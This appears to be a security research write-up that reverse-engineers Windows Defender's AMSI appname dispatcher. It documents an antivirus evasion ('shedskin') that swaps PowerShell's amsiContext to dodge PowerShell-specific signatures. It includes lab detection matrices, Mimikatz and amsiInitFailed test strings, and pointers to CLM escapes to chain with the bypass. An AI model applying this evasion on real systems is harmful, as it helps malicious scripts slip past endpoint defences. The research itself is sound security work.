The three fragments compose into one semantic claim worth stating in isolation: **the inner compare is case-sensitive by construction, not by configuration.** No `and al, 0xDF` ASCII-fold instruction appears anywhere in the vector loop or the resolver, no `_wcsnicmp` sibling is reached from this call site, and no normalization pass runs on the haystack before the compare. The appname mismatch that shedskin relies on is a byte-level ordinal fact; there is no code path in this compare body that treats `powershell_1` and `PowerShell_1` as equal.

The scalar tail is `cmp word [rbx + rcx*2], ax` at `0x1800ef214`. One raw 16-bit compare per wchar, no `tolower`, no `CharUpperW`, no `LCMapStringEx` call in sight. If `'P' (0x0050)` and `'p' (0x0070)` arrive at this cmp, they fail. Case-sensitivity is a byte-level property of this specific instruction, not an inferred mpengine behaviour.

`vpcmpeqw` compares raw 16-bit lanes. No case fold, no normalization. The scalar tail also diffs by raw word. So the match is case-sensitive wide-string prefix of length `len("PowerShell_") == 11`. The Win11 live 1.1.26080.3 build has the semantically identical compare at `0x1802ea370` wrapped by `0x180330378`; the engine refactor between 1.1.26080.3 and 1.1.26090.9 moved the bodies without changing the shape.

The Ghidra decompile of the dispatcher's enclosing function on mpengine 1.1.26080.3 (raw output from r2ghidra, no synthesis), showing the full host-prefix routing chain:

```c
// mpengine.dll 1.1.26080.3 (SHA256 34a08f42f7..), appname dispatcher
// Ghidra decompile of fcn.180324808, trimmed to the routing body.
// The function_0x000180330378 call is the wcsncmp wrapper (0xb = 11 chars for
// "PowerShell_"); func_0x00018017a040 is the sibling exact-length ordinal cmp.
// pcVar6 becomes the two-char tag ("PS", "EDGE", "DOTNET", ...) that routes to
// the host pack loader at 0x1802f3a50.
void fcn.180324808(ulong param_1, ulong param_2)
{
    char16_t *pcVar6;
    int iVar3;
    char cVar2;

    iVar3 = func_0x000180330378(&stack0x000000c0, param_2, 0xb, L"PowerShell_");
    if (iVar3 == 0) {
        pcVar6 = 0x180c1bf98;                       // "PS" tag
code_r0x000180324a3a:
        func_0x0001802f3a50(&stack0x000000e0, 0x10, pcVar6);   // pack loader
    }
    else {
        cVar2 = func_0x00018017a040();              // EDGE match
        if (cVar2 != '\0') { pcVar6 = L"EDGE"; goto code_r0x000180324a3a; }
        cVar2 = func_0x00018017a040();              // SS
        if (cVar2 != '\0') { pcVar6 = 0x180c1c000; goto code_r0x000180324a3a; }
        cVar2 = func_0x00018017a040();              // WMI
        if (cVar2 != '\0') { pcVar6 = 0x180c1c008; goto code_r0x000180324a3a; }
        cVar2 = func_0x00018017a040();              // WDAG
        if (cVar2 != '\0') { pcVar6 = L"WDAG"; goto code_r0x000180324a3a; }
        if ((9 < unaff_RBX) &&                      // len > 9 then wcsncmp OFFICE_VBA
            (iVar3 = func_0x000180330378(&stack0x000000c0), iVar3 == 0)) {
            pcVar6 = 0x180c1c048; goto code_r0x000180324a3a;   // "VBA"
        }
        cVar2 = func_0x00018017a040();              // Excel
        if (cVar2 != '\0') { pcVar6 = L"XL4M"; goto code_r0x000180324a3a; }
        if ((0xe < unaff_RBX) &&                    // len > 14 then wcsncmp "Exchange Server"
            (iVar3 = func_0x000180330378(&stack0x000000c0), iVar3 == 0)) {
            pcVar6 = L"EXCHG"; goto code_r0x000180324a3a;
        }
        if ((0x10 < unaff_RBX) &&                   // len > 16 then wcsncmp "SharePoint Server"
            (iVar3 = func_0x000180330378(&stack0x000000c0), iVar3 == 0)) {
            pcVar6 = L"SPSERVER"; goto code_r0x000180324a3a;
        }
        cVar2 = func_0x00018017a040();              // Skype for Business Server
        if (cVar2 != '\0') { pcVar6 = L"SKYPE"; goto code_r0x000180324a3a; }
        cVar2 = func_0x00018017a040();              // VSSAMSI
        if (cVar2 != '\0') { pcVar6 = 0x180c1c138; goto code_r0x000180324a3a; }
        cVar2 = func_0x00018017a040();              // MCPSCAN
        if (cVar2 != '\0') { pcVar6 = 0x180c1c150; goto code_r0x000180324a3a; }
        cVar2 = func_0x00018017a040();              // DotNet or coreclr
        if ((cVar2 != '\0') || (cVar2 = func_0x00018017a040(), cVar2 != '\0')) {
            pcVar6 = L"DOTNET"; goto code_r0x000180324a3a;
        }
    }
    // ... fall-through: per-attribute parse (opnums 0x3b, 0x3f, 0x4b, 0x4d, 0x3c,
    // 0x40, 0x83 for PromptScan, 0x70 for UAC/OdrMcp) and OTHER pack load
}
```

Two compare families appear in the decompile: `func_0x000180330378` is the prefix wrapper (the four length-prefixed hosts: `PowerShell_`, `OFFICE_VBA`, `Exchange Server`, `SharePoint Server`), and `func_0x00018017a040` is the exact-length ordinal compare for the other named branches. Both are case-sensitive in the shown AVX2 body. On match, the tag passes to the pack loader at `0x1802f3a50`. The branches group labels and aliases from the recovered string region (`0x180c1bee0..0x180c1c1a8`).

Shedskin's effect: a context whose appname is `"x"` fails the first `wcsncmp("PowerShell_", ...)` and then fails every sibling test in the else-branch, falling through to the OTHER pack path. The PS pack loader at `0x1802f3a50` never runs with the PS tag. The seven-level static call chain that reaches `fcn.180324808` is in §how-the-dispatcher-is-reached.


### the dispatcher branches, enumerated

What this table tells and does not tell. The compare families, the per-host strings, their lengths, the match tags, and the fall-through to OTHER are read directly from the decompile pseudocode in the section above and are authoritative. The branch VAs in the left column were derived against an earlier baseline that treated `0x18032b74c` as the dispatcher entry; §how-the-dispatcher-is-reached corrects that to `fcn.18032458c` (3,459 bytes) with the `PowerShell_` wcsncmp compare site at `0x180324808`. The branch VAs are therefore stale and are kept here as sortable row keys until a re-derivation against `fcn.18032458c` is published alongside the artifact bundle; a reader walking a live mpengine disassembly will NOT find these literal VAs inside `fcn.18032458c`. Read the right four columns, not the left.

| branch key (stale VA, see note above) | needle string (wide) | len | compare wrapper | tag on match |
|---|---|---|---|---|
| preamble | preamble (`MpAMSIDropReplayPath` read, cookie, bounds setup) | - | - | - |
| JS branch | `JScript` | 7 | `0x18018081c` (ordinal, length-passed in r9d) | `JS` |
| JSE branch | `JScript.Encode` | 14 | `0x18018081c` | `JSE` |
| VBS branch | `VBScript` | 8 | `0x18018081c` | `VBS` |
| VBSE branch | `VBScript.Encode` | 15 | `0x18018081c` | `VBSE` |
| **PS branch** | **`PowerShell_`** | **11** | **`0x180336e54` (wcsncmp prefix wrapper); the live compare site inside `fcn.18032458c` is `0x180324808`** | **`PS`** |
| EDGE branch 1 | `{8f8336b8-0515-4cc5-ab8a-204531b42a55}` | 38 | `0x18018081c` (GUID literal match) | `EDGE` |
| EDGE branch 2 | `{28a7d36f-6463-4fa1-8888-7d07eb77612f}` | 38 | `0x18018081c` | `EDGE` (second GUID) |
| SS branch | `SS` | 2 | `0x18018081c` | tag at `0x180d42040` |
| WMI branch | `WMI` | 3 | `0x18018081c` | tag `WMI` |
| Hvsi branch | `Hvsi` | 4 | `0x18018081c` | tag |
| WDAG branch | `WDAG` | 4 | `0x18018081c` | tag |
| **OFFICE_VBA branch** | **`OFFICE_VBA`** | **10** | **`0x180336e54`** | `VBA` |
| Excel branch | `Excel` | 5 | `0x18018081c` | `XL4M` |
| **Exchange branch** | **`Exchange Server`** | **15** | **`0x180336e54`** | `EXCHG` |
| **SharePoint branch** | **`SharePoint Server`** | **17** | **`0x180336e54`** | `SPSERVER` |
| Skype branch | `Skype for Business Server` | 25 | `0x18018081c` | `SKYPE` |
| VSSAMSI branch | `VSSAMSI` | 7 | `0x18018081c` | `VSS` |
| MCPSCAN branch | `MCPSCAN` | 7 | `0x18018081c` | `MCP` |
| DotNet branch | `DotNet` | 6 | `0x18018081c` | `DOTNET` |
| coreclr branch | `coreclr` | 7 | `0x18018081c` | tag |
| UAC branch | `UAC` | 3 | `0x18018081c` | tag at `0x180d421c8` |
| PromptScan branch | `PromptScan` | 10 | `0x18018081c` | tag |
| OdrMcp branch | `OdrMcp` | 6 | `0x18018081c` | tag |
| no match | falls through to the OTHER pack loader | - | - | `OTHER` |

Four branches use the `wcsncmp(needle, haystack, len)` prefix wrapper at `0x180336e54` (which calls the AVX2 compare at `0x1800ef184` shown above): PowerShell_, OFFICE_VBA, Exchange Server, SharePoint Server. These are the four hosts where a shorter appname literal is enough to match any longer caller-supplied name (PowerShell matches `PowerShell_<ver>_<path>`, Office matches `OFFICE_VBA<something>`, etc.). The other 15 or so host branches use a sibling compare at `0x18018081c` that takes the needle length in `r9d` and performs an exact ordinal compare against the appname.

The strings block at `0x180c1be00..0x180c1c1b8` holds 37 wide-string literals; roughly 23 of them are referenced from this AMSI dispatcher body. The remainder (JS, JSE, VBS, VBSE short tags; `{8f8336b8-...}` and `{28a7d36f-...}` GUIDs; tag literals for the match arms) are the "tag" strings loaded on match, not host names. The engine's non-AMSI code paths (Windows Script Host scanning, Office VBA scanning) share the same `.rdata` pool.

### how the dispatcher is reached

Two numbers are load-bearing here and they are different. The ENCLOSING FUNCTION is `fcn.18032458c` (3,459 bytes); this is the function the chain below counts as "the dispatcher". The APPNAME WCSNCMP COMPARE SITE inside that function is `0x180324808`; this is the instruction that executes the `wcsncmp(appname, L"PowerShell_", 11)` for the PowerShell host entry. Earlier revisions of this write-up used `0x18032b74c` for both; that VA belongs to the host-name string table above (one of the `L"PowerShell_"` string-reference addresses), not the compare site, and is now corrected to the two addresses that actually hold the behavior. Neither the enclosing function nor the compare site has a publicly exported symbol in mpengine, an absolute pointer reference anywhere in the image, or a vtable slot. `fcn.18032458c` has ONE direct caller (CALL at `0x180325edd` inside `fcn.180325dd0`). Walking the full static chain backward through mpengine from export to the compare site:

```
level 1  0x180324808  appname wcsncmp dispatch (PowerShell_ needle)       inside fcn.18032458c (3459 bytes)
level 2  0x180325edd  CALL to dispatcher fcn.18032458c                    inside fcn.180325dd0 (2343 bytes)
level 3  0x18002ae25  CALL to dispatcher wrapper fcn.180325dd0            inside fcn.18002a9d0
level 4  0x18003c4f2  CALL to scan dispatch fcn.18002a9d0                 inside fcn.18003c1f0 (9332 bytes, main scan dispatcher)
level 5  0x18003bf50  CALL to scan dispatcher fcn.18003c1f0               inside fcn.18003b090 (4059 bytes)
level 6  0x18003b046  tail-JMP from fcn.18003b090 to 0x18003b020          (__rsignal export entry)
level 7  0x18003b020  mpengine export __rsignal, ordinal 16
```

Seven levels of static call-graph, measured in the mpengine.dll binary. The dispatcher is reached only through this named chain starting at `mpengine!__rsignal`. MsMpEng.exe does NOT statically import from mpengine.dll (its imports are CRYPT32, WINTRUST, ntdll, KERNEL32, ADVAPI32 only); MsMpEng dynamically `LoadLibrary`'s mpengine and resolves `__rsignal`, `MpBootStrap`, and siblings via `GetProcAddress` at runtime. This is why no static ALPC server stub inside MsMpEng.exe directly references the dispatcher: everything mpengine-related is runtime-resolved. The authoritative static chain lives inside mpengine.dll and starts at the exported entry.

**Static inference, not live tracing.** The client-side chain `MpClient!MpAmsiScan` (opnum `0x5f`) marshals appname + content as NDR over ncalrpc. The server-side chain from the opnum handler to `__rsignal` is INFERRED from the static graph (opnum table + dispatch stubs inside MsMpEng.exe plus the exported entry inside mpengine.dll), NOT observed live. ETW-TI inside MsMpEng is PPL-sealed, so runtime tracing of the ALPC-to-dispatcher hop requires a PPL vantage (MDE's `MsSense.exe` or a kernel driver), neither of which was used here. The chain above is the auditable static version; a live single-step from the client call to the compare instruction is not shown and the post does not claim one. For an attacker, the mpengine dispatcher is not a useful user-mode patch target either, since you need a handle inside MsMpEng (PPL) to reach it; shedskin reaches the SAME semantic effect (OTHER-pack routing) by making the client's appname argument not match.

The dispatcher compares the appname with its named host branches and selects the corresponding pack; a miss falls through to OTHER. The tested short Mimikatz pattern fired on the PowerShell route and returned clean on the sampled non-PowerShell routes. EICAR and the Rastamouse one-liner fired under every tested appname. The intact 2.2 MB PowerSploit file is a separate counterexample to any claim that OTHER never catches Mimikatz content: it blocked after the context swap. Pack coverage must be measured for the exact content being discussed.

PowerShell's own `AmsiUtils.Init()` always passes `"PowerShell_<ver>_<path>_<ver>"` as the appname, which hits the PS match. shedskin's `AmsiInitialize('x', ...)` falls to OTHER. The DotNet entry in mpengine's table (0x180c1c158) is reached by appname `"DotNet"` (6 chars, no underscore, no version) and the DotNet pack catches .NET-assembly Mimikatz drops. CLR carries its own `amsiContext` at `qword [clr.dll + 0x929880]`, confirmed by static RE in the section below. The managed swap does not reach it. For the 2.2 MB PS-source Mimikatz sentinel measured in this writeup the second-pass block is PS-side anyway; the CLR context matters for raw PE `Reflection.Assembly.Load` paths. See the live matrix below.

**Lab matrix (win11 26200.8037, Defender 1.459.576.0, 2026-10-23, one Mimikatz-pattern PS sentinel nonced per iteration to defeat the mpengine SHA-1 cache. The content-cache is the AMSI result cache in MsMpEng.exe that keys on `SHA-1(content[:128MiB])`; a prior sentinel with the same bytes gets served from cache. Nonce the string per iteration or every bypass measurement after the first reads cached. Characterized in a sibling finding referenced in the appendix):**

| appname passed to `AmsiInitialize`                               | result   | mpengine routing          |
|------------------------------------------------------------------|----------|---------------------------|
| real `PowerShell_5.1.26100.7920_...\powershell.exe_10.0.26200.0` | BLOCK    | PS prefix match (wcsncmp wrapper, 11 chars) |
| `x`                                                              | **EXEC** | OTHER (no host match)     |
| `X`                                                              | **EXEC** | OTHER                     |
| `PowerShell` (no underscore)                                     | **EXEC** | OTHER (missing `_`, no prefix match) |
| `PowerShell_` (11 chars, exact prefix)                           | BLOCK    | PS prefix match           |
| `PowerShell_1`                                                   | BLOCK    | PS prefix match           |
| `powershell_1` (lowercase 'p')                                   | **EXEC** | OTHER (case mismatch, PS prefix is case-sensitive) |
| `PowerShell_1.0_fake_1.0`                                        | BLOCK    | PS prefix match           |
| `` (empty string)                                                | BLOCK    | fallback / E_INVALIDARG path |
| `OFFICE_VBA_x`                                                   | **EXEC** | OFFICE_VBA prefix match (no PS sig in that pack) |
| `OFFICE_VBA`                                                     | **EXEC** | OFFICE_VBA prefix match (no PS sig in that pack) |
| `office_vba` (lower)                                             | **EXEC** | OTHER (case mismatch)     |
| `Excel_x`                                                        | **EXEC** | OTHER (Excel uses exact-length ordinal, len 5; `Excel_x` does not match) |
| `EXCEL_x`                                                        | **EXEC** | OTHER (case mismatch and length mismatch) |
| `VBScript_x`                                                     | **EXEC** | OTHER (VBScript uses exact-length ordinal, len 8; `VBScript_x` does not match) |
| `VBSCRIPT_x`                                                     | **EXEC** | OTHER                     |
| `JScript_x`                                                      | **EXEC** | OTHER (JScript uses exact-length ordinal, len 7; `JScript_x` does not match) |
| `coreclr_x`                                                      | **EXEC** | OTHER (coreclr uses exact-length ordinal, len 7; does not match) |
| `DotNet_x`                                                       | **EXEC** | OTHER (DotNet uses exact-length ordinal, len 6; `DotNet_x` does not match) |

Five readings fall out:

1. The PS match is an 11-char case-sensitive prefix (wcsncmp wrapper). Capital 'P' is load-bearing.
2. `""` triggers the default/E_INVALIDARG path. amsi.dll rejects a NULL appname with `0x80070057`; an empty wide-string is treated conservatively and does not bypass. The one measurement where shedskin fails if you forget the appname arg.
3. Only four hosts use the wcsncmp prefix wrapper (`PowerShell_`, `OFFICE_VBA`, `Exchange Server`, `SharePoint Server`). Appnames like `DotNet_x`, `Excel_x`, `JScript_x`, `VBScript_x`, `coreclr_x` do NOT prefix-match their host literal because those hosts are compared with an exact-length ordinal wrapper. Those arms fall to OTHER, same as `x`. The practical consequence is identical for the shedskin claim (PS pack unloaded), but the routing step is OTHER, not "sibling pack".
4. Case mismatch (`VBSCRIPT_x` vs `VBScript_x`, `office_vba` vs `OFFICE_VBA`) also falls to OTHER. The compare is ordinal case-sensitive.
5. The bypass does NOT depend on `AmsiUninitialize(old)`. We re-ran shedskin with the uninit call removed. Baseline blocked, swap-only bypassed. Classical swap+uninit also bypassed. The uninit call releases old resources but is cosmetic for the bypass itself.


**The CAmsiProvider destructor path** that fires on the optional `AmsiUninitialize(old)` cleanup. The releaser clears the holder's refcount to zero and nulls the global singleton pointer; the next scan sees refcount==0 and allocates a fresh holder with a fresh MpManager handle. Trace: `AmsiUninitialize(old)` → `fcn.1800018a0` shared releaser → releases MpOAV provider via COM → `CAmsiProvider::~CAmsiProvider` at `0x18000e29c` → decrements refcount at `0x18006cf20` to zero → clears `qword [0x18006cf28]` → releases the holder → MpClient's `MpHandleClose` tears down the MpManager session. The NEW context's first scan re-enters `CAmsiProvider::Initialize` at `0x18000e0c4`, which observes refcount==0 and allocates fresh. mpengine on the MsMpEng side has no state coupling across the handle swap; it dispatches by appname. The uninit teardown is visible but mechanically irrelevant. Swap-only reaches the same end state because the field write arrives before the next `ScanContent` reads the field, and that read is the only load-bearing step for Gate 3.

The shared releaser decompile, with PDB-resolved symbols loaded, is reproduced below alongside the opening of `AmsiInitialize` showing the provider walk and the `OMSI` context allocation at `0x180006f94`:


## the dispatcher claim measured directly

The dispatcher story is testable without PowerShell. Pass an appname to `AmsiInitialize`, then call `AmsiScanBuffer` with content and read the verdict. Pack membership is observable per-appname per-content.

Measured on Win11 26200.8037 against Defender platform 1.1.26080.3, signature 1.459.576.0. Each payload scanned under eight appnames via direct `AmsiScanBuffer` P/Invoke. `DET` = `AMSI_RESULT_DETECTED` (32768). `CLN` = `AMSI_RESULT_NOT_DETECTED` (1).

| payload | PowerShell_X | pwsh_X | x | OTHER | DotNet | VBSCRIPT | JSCRIPT | OFFICE_VBA | ScriptBlock_01 |
|---|---|---|---|---|---|---|---|---|---|
| AMSI Test Sample (`AMSI Test Sample: 7e72c3ce-...`) | CLN | CLN | CLN | CLN | CLN | CLN | CLN | CLN | CLN |
| EICAR (`X5O!P%@AP[4\PZX54(P^)7CC)7}$EICAR-...`) | DET | DET | DET | DET | DET | DET | DET | DET | DET |
| Rastamouse one-liner (`[Ref].Assembly.GetType('...AmsiUtils').GetField('amsiInitFailed',...).SetValue(...)`) | DET | DET | DET | DET | DET | DET | DET | DET | DET |
| C3 Mimikatz pattern (`function Invoke-Mimikatz { $dump='sekurlsa::logonpasswords' }`) | **DET** | **CLN** | **CLN** | **CLN** | **CLN** | **CLN** | **CLN** | **CLN** | **CLN** |
| Invoke-BloodHound (`Invoke-BloodHound -CollectionMethod All`) | CLN | - | CLN | CLN | CLN | CLN | CLN | CLN | CLN |
| Invoke-PowerShellTcp Nishang | CLN | - | CLN | CLN | CLN | CLN | CLN | CLN | CLN |

The row that shaped the mechanism claim at the 2026-10-25 capture is C3: the Mimikatz pattern read DETECTED under `PowerShell_X` and CLEAN under every other appname, which lines up with "the sig lives in the PS pack, switching appnames away from `PowerShell_` is sufficient to make it clean, with no memory write, no hook, and no session changes". That reading is nonreproduced on current sig 1.459.576.0 (reproduction note immediately below), so the current proof of record for the bypass is the IEX differential at §live-end-to-end-cycle, not this row. Rows 1 and 2 are universal sigs that fire under every appname tested; shedskin does NOT bypass those. Rows 4 and 5 don't fire under current signatures at all.

> **2026-10-29 reproduction note.** The 2026-10-29 strengthening pass tried to re-measure the C3 row via direct `AmsiScanBuffer` and could NOT reproduce the `PowerShell_X -> DET` cell on current sig 1.459.576.0. Direct `AmsiScanBuffer` returns `1` on the Mimikatz-pattern bytes under every appname and every encoding tested, with and without `AmsiOpenSession`, with every `contentName` variant. The PS-pack sig fires through SMA's `ScanContent` path only; direct scan from managed code does not reproduce it on this sig DB. The IEX-level bypass (same content blocked at pass-1 before shedskin, same content executed at pass-1 after shedskin) is the authoritative live receipt and is the one §live-end-to-end-cycle carries. Treat the direct-scan matrix above as the earlier shape of the dispatcher claim; the IEX differential is what Defender actually gates in production.

A caveat on the `pwsh_X` column: `pwsh_X` is a synthetic test input chosen to exercise a non-`PowerShell_`-prefixed string from a PS-like host. It is NOT the real appname pwsh 7 emits. Captured 2026-10-29 via `logman` on the Microsoft-Antimalware-Scan-Interface provider while running `pwsh.exe` 7.4.21 on the same guest, event 1101's `appname` field reads `PowerShell_C:\Program Files\PowerShell\7\pwsh.exe_7.4.21 SHA: 0d63e962b5c2236d981d593a78acf88ed96748f6`. The literal `PowerShell_` appears in `pwsh.exe`'s own `System.Management.Automation.dll` (SHA-256 `8B97A3E4..`), matching the `AmsiUtils.Init()` shape. So pwsh 7's live scans route to the mpengine PS pack by prefix just as Windows PowerShell 5.1 does; the CLEAN verdict on the `pwsh_X` synthetic column tells us the dispatcher's prefix compare is case-sensitive and length-anchored, nothing about pwsh coverage. The direct-probe `pwsh-direct-probe` arm (non-`PowerShell_` prefix) returned CLEAN on the Mimikatz-pattern ASCII bytes, which is consistent with the sig living in the PS pack; the symmetric end-to-end measurement (pwsh running an actual IEX of the pattern and that scan hitting the PS pack) is a separate run gated by Defender's current pre-emptive block on scripts carrying the literal.

**Multi-host extension, 2026-10-25 (historical capture, same reproduction caveat).** A follow-up probe exercised 17 appname classes against the same Mimikatz-wrapper content with per-scan noncing: `PowerShell_*` (PS pack), `JScript`, `VBScript`, `EDGE`, `OFFICE_VBA`, `Excel`, `Exchange Server`, `SharePoint Server`, `DotNet`, `coreclr`, `UAC`, `PromptScan`, `OdrMcp`, `VSSAMSI`, `WMI`, `MyAmsiScanner`, and a non-matching `xy`. In that 2026-10-25 capture only `PowerShell_*` fired `AMSI_RESULT_DETECTED` (32768) on the Mimikatz pattern; the other sixteen all returned CLEAN. Per-scan latency: PS pack ~45 ms, non-PS packs 7 to 20 ms. The direct-scan DET side of this split is the same cell the 2026-10-29 reproduction note above flags as nonreproduced on current sig; read the DET/CLN split here as the earlier shape of per-appname dispatcher routing, with the mechanism-level validation coming from the mpengine static reversing and the IEX differential at §live-end-to-end-cycle. The perf delta captured here is from the 2026-10-25 era and carries the same caveat; see §the-perf-side-channel for the detail.

## variant hunt: is amsiContext the only field that lands here

Before claiming "this is the only path", I enumerated every NonPublic Static IntPtr-typed field across every type in `System.Management.Automation.dll` via a dnfile script. The whole SMA assembly carries exactly 12 such fields; only two are AMSI-related:

| type | field |
|------|-------|
| `System.Management.Automation.AmsiUtils` | `amsiContext`   |
| `System.Management.Automation.AmsiUtils` | `amsiSession`   |
| `System.Management.Automation.WindowsErrorReporting` | `hCurrentProcess` |
| `System.Management.Automation.WindowsErrorReporting` | `hwndMainWindow`  |
| (eight more unrelated to AMSI) | ... |

`amsiSession` is the fifth parameter of `AmsiScanBuffer`. Swapping it does not change which providers get invoked, because providers are attached to the CONTEXT, not the session. Confirmed by reading AmsiScanBuffer: the session is passed through to each provider for correlation only. Not a shedskin candidate.

So the variant hunt returns one: `amsiContext`. Combined with the earlier finding that only `AmsiInitialize` + `AmsiUninitialize` ever write it from the managed side (plus `Init()`-via-null-reset), the shedskin shape is unique in the SMA surface. If Microsoft reshapes the field to seal it, there is no sibling to pivot to inside SMA; the next move would be either a CLM escape or a native layer swap below PowerShell.


## the one wall: CLM

Shedskin dies in one scenario and only one. The field write at step 2 reaches a `NonPublic Static` member of `System.Management.Automation.AmsiUtils`, which needs reflection via `GetField(name, BindingFlags.NonPublic | BindingFlags.Static)` plus `SetValue`. PowerShell's Constrained Language Mode, enforced by Windows Defender Application Control on hardened enterprise builds, refuses that reflection. The error is a `PSInvalidOperationException` whose message names constrained language mode.

I audited the entire managed surface for a sibling path that lands in the same state without the field write. Every candidate either nulls `amsiContext` (triggering Init() recovery) or needs the field write. No CLM-safe path exists through the managed layer; a CLM escape primitive (an unrelated CVE class) is required to run shedskin against a WDAC-locked PS session. Default Windows 10 and Windows 11 run Full Language Mode, so the bypass is unconditional against the default build; WDAC-locked PS is an enterprise-hardening scenario.

If you ARE in CLM, published escapes stack behind shedskin cleanly. The common ones:

- Ryan Cobb / SpecterOps, "Pursuing a World in Which Operators Need Not Fear PowerShell CLM" (BlueHat IL 2018). The `[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer` pattern plus a native cradle landed CLM escapes that chain into any FLM-only follow-on.
- Daniel Bohannon / "Invoke-DOSfuscation" and the broader CLM escape via `AddType` + `ReflectionOnlyLoadFrom` tricks (various posts 2018-2019).
- Kevin Beaumont's work on CLM-WDAC gaps against specific updates (2020).
- `powershell -version 2` on older Windows where WDAC did not downgrade. Mostly closed now; worth checking the target.

The common pattern: get out of CLM to FLM, then shedskin runs normally. The chain works because FLM-escapes land in a PS session where NonPublic Static reflection is permitted; shedskin needs no primitive beyond that.

## versions, under one roof

Every measurement in this post ran against the same lab guest state. Reproducibility starts here.

| component | version | notes | date |
|---|---|---|---|
| Windows build | 10.0.26200.8037 | Win11 25H2 (Microsoft maps build 26200 to 25H2), lab snapshot | 2026-10-24 |
| PowerShell | 5.1.26100.7920 | the primary target, `powershell.exe` | 2026-10-24 |
| pwsh (secondary arm) | 7.4.21 | installed under `C:\Program Files\PowerShell\7` | 2026-10-24 |
| System.Management.Automation.dll | 10.0.26100.7920 | 6.3 MB, hosts `AmsiUtils`, `ScanContent` | 2026-10-24 |
| Defender product | 4.18.25080.5 | | 2026-10-24 |
| Defender platform | 1.1.26080.3 | OS-resident mpengine | 2026-10-24 |
| Defender engine | 1.1.26080.3 | matches platform | 2026-10-24 |
| Signature | 1.459.576.0 | | 2026-10-24 |
| clr.dll | 4.8.9345.0 | SHA256 `217a9b1911d3631e5b63b5146745d0fdc71c4b6aa37e550202ca0afba33ac79a`; `AmsiScanBuffer` function-pointer slot at RVA `0x929870` | 2026-10-24 |
| mpengine (OS resident) | 1.1.26080.3 | dispatcher at `0x180324808` | 2026-10-24 |
| mpengine (update bundle current) | 1.1.26090.9 | pulled from `mpam-fe64.exe`, SHA256 `0d8739caba24f4781dc600fa47443dea934c7c3d8389178264613f095be84514`; dispatcher moved to `0x18032b9c8` | 2026-10-24 |
| MpClient.dll | pulled from `C:\Program Files\Windows Defender\MpClient.dll` | 1,803,696 bytes, SHA256 `1b84eec5a260ec52d7a55163888b72deaa9182c08d261d083f18a4d840a3de97`; ncalrpc transport, UUID family `5FE1BC3B-41BF-4197-8FFE-DA2311848F**` | 2026-10-24 |

## what shedskin does not do

Three limits worth stating in the same breath as the capability. Shedskin is per-process: sibling PS processes start fresh with their own `[AmsiUtils]::amsiContext`, and the `profile.ps1` amplification exists precisely to cover interactive-login workflows. It is AMSI content-scan only, not RTP file-scan: a signatured byte on disk still blocks on write, and dropper discipline is a separate problem. It does not bypass universal AMSI signatures: the AMSI Test Sample GUID and the Rastamouse `amsiInitFailed` one-liner string both detect under every appname I tested, because the pack-routing effect applies to PS-pack-specific sigs, not to Microsoft's universal detection stimuli.

**PowerShell 7 is a different target.** Lab-measured on `pwsh.exe` 7.4.21 (.NET 8), the SMA type is still `System.Management.Automation.AmsiUtils` but the fields are renamed with the `s_` prefix: `s_amsiContext`, `s_amsiSession`, `s_amsiInitFailed`, plus a new `s_amsiNotifyFailed`. The `s_amsiInitFailed` field is marked `initonly`, so `SetValue` throws `FieldAccessException: Cannot set initonly static field 's_amsiInitFailed' after type 'AmsiUtils' is initialized`. That seals the classical Rastamouse one-liner on pwsh 7. The context-swap primitive (`s_amsiContext` write) does not throw. On the dispatcher-routing side the picture is settled: pwsh 7.4.21's live event-1101 `appname` captured 2026-10-29 reads `PowerShell_C:\Program Files\PowerShell\7\pwsh.exe_7.4.21 SHA: 0d63e962b5c2236d981d593a78acf88ed96748f6`, so pwsh scans ROUTE INTO the PS pack by prefix, same as `powershell.exe`. The payloads pwsh 7 blocks at baseline in this run are the universal sigs (C1, C2); the PS-pack-specific C3 Mimikatz-pattern ASCII returned CLEAN only when scanned under a non-`PowerShell_`-prefix appname (direct-probe arm). Whether pwsh's OWN `IEX` of the pattern reaches the PS pack and fires the sig is gated by Defender's current pre-emptive block on scripts carrying the literal, so the end-to-end pwsh IEX measurement is held open until a payload-delivery shape that passes the outer-script scan is settled. Net: shedskin against `pwsh.exe` is a no-op for the universal sigs; whether the PS pack catches a Mimikatz-pattern scan arriving under pwsh's `PowerShell_...pwsh.exe...` appname is still a separate open measurement.

Three heavier limitations earn their own paragraph.

**Server 2022 and Server 2025 unverified, and the usual extraction path is blocked.** mpengine.dll is the file we need to compare across SKU, and that file ships inside the `mpam-fe64.exe` platform-update package. The Taviso 2017 `cabextract mpam-fe.exe` recipe is dead. Current `mpam-fe64.exe` (version 1.461.165.0, 150 MB) is a signed PE32+ whose engine ships as an encrypted resource section. `cabextract` reports "no valid cabinets found"; `7z` recognizes the outer PE and errors "Unexpected end of archive" on the inner data. The only code that decrypts and lays mpengine down is Microsoft's own `MpSigStub` inside `MsMpEng.exe`, so a readable mpengine.dll only surfaces at `C:\ProgramData\Microsoft\Windows Defender\Platform\<ver>\mpengine.dll` after the stub has run on a live Windows guest. The cross-SKU matrix therefore needs a Server 2022 or Server 2025 VM up long enough to install the platform update, not just the ISO. The Linux-side `libmpengine.so` from mdatp shares the engine codebase (same ~18 MB size, same ZSTD compression exports, same `amsiappid` / `AmsiUacInfo` telemetry string set) but strips the Windows AMSI host-prefix dispatcher (`PowerShell_`, `VBScript`, `DotNet` absent; only `UAC` and `OTHER` present). The dispatcher at `0x180324808` is Windows-only code. Server 2022/2025 is expected to hold by the same reasoning as Win10-vs-Win11, not confirmed.

**Third-party AMSI providers: two empirical attach confirmations, bypass generality still open.** I built an instrumented in-tree AMSI provider (minimal C, no CRT, 96 KB), registered it next to MpOav, verified shedskin's new context attaches it and the provider's `Scan` method fires with `appname=x`. Then installed Avast Free Antivirus (public download, no license) on a fresh snapshot of the win11 guest. Avast registered CLSID `{FB904E4E-D2C7-4C8D-8492-B620BB9896B1}` under `HKLM\SOFTWARE\Microsoft\AMSI\Providers`, Windows auto-flipped Defender to Passive Mode (one primary AV, MpOav removed from the registry key), and `aswAMSI.dll` loaded in `pwsh.exe` alongside `amsi.dll` on PS startup. The shedskin primitive still worked mechanically: `AmsiInitialize('x', ref newCtx)` returned `S_OK`, the field swap committed, `AmsiUninitialize(oldCtx)` returned clean, `aswAMSI.dll` stayed loaded. Two different third-party providers (dummy + Avast) confirm the architectural attach. The bypass generality is a different question: Avast's AMSI content-scan did not catch any of the sentinels tested in baseline (nonced Mimikatz-identifier strings in `$v='...'` form, Microsoft AMSI Test Sample GUID), so the "does shedskin bypass Avast's content scan" measurement was oracle-down. 